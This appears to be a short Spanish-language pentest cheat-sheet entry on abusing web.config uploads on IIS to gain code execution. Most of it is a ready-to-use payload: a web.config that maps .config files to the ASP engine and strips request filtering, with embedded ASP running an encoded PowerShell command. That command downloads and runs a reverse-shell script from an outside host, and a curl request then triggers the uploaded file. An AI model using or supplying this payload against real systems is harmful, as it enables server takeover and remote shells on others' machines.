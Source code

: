 ## IIS

### Abuso de archivo web.config

En caso de tener capacidad de subida de archivos, se puede intentar crear un archivo de configuración y si la versión es vulnerable inyectar código ASP

```aspx
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set co = CreateObject("WScript.Shell")
Set cte = co.Exec("cmd /c powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAiACkACgA=")
output = cte.StdOut.Readall()
Response.write(output)
%>
```

### RCE

```null
curl -s -X GET http://10.10.10.93/uploadedfiles/web.config
```

